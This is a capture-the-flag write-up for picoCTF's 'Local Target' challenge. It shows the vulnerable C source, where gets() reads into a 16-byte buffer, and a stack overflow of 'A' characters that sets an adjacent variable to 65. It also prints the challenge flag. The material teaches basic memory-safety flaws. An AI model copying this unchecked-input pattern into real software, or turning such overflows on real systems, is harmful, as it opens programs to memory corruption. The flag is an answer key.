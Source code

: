# Local Target
This was a challenge listed exclusively for the Pico Gym.  It's listed as Medium and categorized as a Binary Exploitation challenge.  
Direct Link:  https://play.picoctf.org/practice/challenge/399

## Description
The Description reads:
> Smash the stack

## Hints
There are two hints:
> Do anything you can to change num.
> When you change num, view the value as hexadecimal.

# Solving
## My Thoughts
A nice intro to C vulnerability concepts.

## Source Code
Let's take a quick look at the source code first:

``` c
#include <stdio.h>
#include <stdlib.h>

int main(){
  # Initiates a file pointer.
  FILE *fptr;
  # Initiates a variable named c to hold a char
  char c;

  # Initiates a variable named input to hold an array of 16 chars.
  char input[16];
  # Initiates an integer that's set to 64.
  int num = 64;

  # Gets the user's input but doesn't store it anywhere.
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");

  # Prints the number from above.
  printf("num is %d\n", num);
  fflush(stdout);

  # Checks if the number variable is equal to 65 and prints the flag if it does.
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }

  printf("Bye!\n");
  fflush(stdout);
}
```

So, we have to somehow update the num variable to be 65 but there's no apparent way to do that?  Let's start plugging in some stuff and see what happens:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ ./local-target
Enter a string: AAAAA

num is 64
Bye!

┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ ./local-target
Enter a string: AAAAAAAAAAAAA

num is 64
Bye!

┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAAA

num is 16705
Bye!
```

Well that's a little weird, let's convert that decimal number to hex:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ python -c 'print(hex(16705))'
0x4141
```

That looks a little odd, let's convert that hex to ASCII:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ python -c 'print(bytearray.fromhex(hex(16705).replace("0x", "")).decode())'
AA
```

Ok, so it looks like it's now replaced the value of num with the decimal interpretation of the string AA.  Interesting! Let's find the ASCII character that corresponds with 65:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ python -c 'print(chr(int(hex(65), 16)))'
A
```

By coincidence the ASCII character for 65 is A!  Let's tune our payload to make it only output A into the num variable:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/binary_exploitation/Local_Target]
└─$ nc saturn.picoctf.net 57515
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

Awesome!  This whole thing is caused by the inherent insecurity of C.  When we overwrote the input variable, there was no check to stop us from continuing to overwrite everything in the stack.

Once we got through 16 characters and any padding between input and num, we were able to overwrite num with an arbitrary value!
